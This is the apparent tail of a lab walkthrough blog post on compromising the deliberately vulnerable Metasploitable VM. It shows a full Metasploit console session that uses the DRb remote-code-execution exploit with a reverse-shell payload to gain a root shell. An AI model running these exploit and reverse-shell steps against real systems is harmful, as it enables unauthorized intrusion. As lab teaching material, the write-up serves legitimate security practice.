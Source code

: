 ``` plain


msf exploit(drb_remote_codeexec) > set URI druby://192.168.127.154:8787
URI => druby://192.168.127.154:8787

msf exploit(drb_remote_codeexec) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf exploit(drb_remote_codeexec) > set LHOST 192.168.127.159
LHOST => 192.168.127.159
msf exploit(drb_remote_codeexec) > exploit

[*] Started reverse double handler
[*] trying to exploit instance_eval
[*] instance eval failed, trying to exploit syscall
[-] Exploit failed: Errno::EINVAL Invalid argument
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 7Kx3j4QvoI7LOU5z;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "7Kx3j4QvoI7LOU5z\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.127.159:4444 -> 192.168.127.154:35889) at 2014-06-08 16:51:56 +0300

whoami
root
```

Another port, another shell!



This turned out to be a a very lengthy post. There were some ports I couldn't find an exploit for, so can't determine if the underlying services were exploitable or not. Overall, owning Metasploitable in multiple ways and documenting it was the goal of this post.


Today's cookie:

> You will be a winner today.  Pick a fight with a four-year-old.

